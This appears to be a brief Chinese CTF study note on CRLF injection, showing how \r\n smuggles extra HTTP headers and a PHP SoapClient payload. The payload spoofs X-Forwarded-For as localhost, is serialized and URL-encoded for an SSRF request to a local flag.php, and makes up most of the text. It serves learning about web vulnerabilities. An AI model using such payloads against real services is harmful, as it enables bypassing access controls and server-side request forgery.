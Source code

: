 
CRLF漏洞是一种网络安全漏洞，指的是回车（Carriage Return，CR）和换行（Line Feed，LF）字符被恶意利用的情况

```
即用\r\n(%0d%0a)进行注入

格式：

User-Agent: feng
x-forwarded-for:127.0.0.1,127.0.0.1
Content-type:application/x-www-form-urlencoded
Content-length:13

token=ctfshow
```

```
可以构造成

<?php
$a = new SoapClient(null,
    array(
        'user_agent' => "zz\r\nx-forwarded-for:127.0.0.1,127.0.0.1\r\nContent-type:application/x-www-form-urlencoded\r\nContent-length:13\r\n\r\ntoken=ctfshow",
        'uri' => 'zz',
        'location' => 'http://127.0.0.1/flag.php'
    )
);
$b = serialize($a);
echo urlencode($b);
?>
```
